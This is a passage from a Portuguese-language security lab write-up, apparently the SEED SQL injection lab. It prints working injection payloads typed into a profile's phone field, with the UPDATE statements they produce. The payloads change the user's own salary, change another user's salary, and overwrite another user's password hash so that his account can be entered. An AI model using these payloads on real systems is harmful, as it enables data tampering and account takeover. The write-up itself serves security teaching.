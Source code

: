     960000000' ,Salary =' 56565656


É crucial notar que a aspas simples (') antes do valor do salário é fundamental para concluir a última instrução antes do WHERE. Em última análise, o servidor executou o seguinte código:

    UPDATE credential SET
    nickname= '$input_nickname', 
    email='$input_email', 
    address='$input_address',
    Password='$hashed_pwd',
    PhoneNumber='960000000',Salary='56565656' WHERE ID=$id;

Como esperado o salário foi modificado como o esperado:


### Task 3.2

Para alterar o valor do salário de outro usuário, utilizamos uma técnica semelhante à anterior. No entanto, criamos uma cláusula WHERE diferente e comentamos a existente no sistema para evitar interferências na pesquisa:
    
    960000000' ,Salary='0' WHERE Name='Boby'#


Com esta entrada, o servidor executou o seguinte código:

    UPDATE credential SET
    nickname= '$input_nickname', 
    email='$input_email', 
    address= '$input_address', 
    Password='$hashed_pwd',
    PhoneNumber='960000000', Salary='0' WHERE Name= 'Boby'# WHERE ID=$id;

Aqui podemos observar o valor de salário de Boby após o ataque:


#### Task 3.3

Para modificar a senha de outro usuário, aplicamos uma abordagem semelhante à anterior. No entanto, desta vez, o valor a ser alterado foi previamente criptografado com SHA1. Por exemplo, para a nova senha "segurança", o hash correspondente é 5a5f1484546b0f83f9e9166d6222e2e9743c037d.

    960000000', password='5a5f1484546b0f83f9e9166d6222e2e9743c037d' WHERE name='Boby'#


Com esta entrada, o servidor executou o seguinte código:

    UPDATE credential SET|
    nickname='$input_nickname', 
    email='$input_email', 
    address='$input_address', 
    Password='$hashed_pwd',
    PhoneNumber='960000000', password='5a5f1484546b0f83f9e9166d6222e2e9743c037d' WHERE name='Boby'# WHERE ID=$id;

Assim, ao utilizarmos a nova senha para Boby, conseguimos entrar na conta dele:


## CTF - SQL Injection
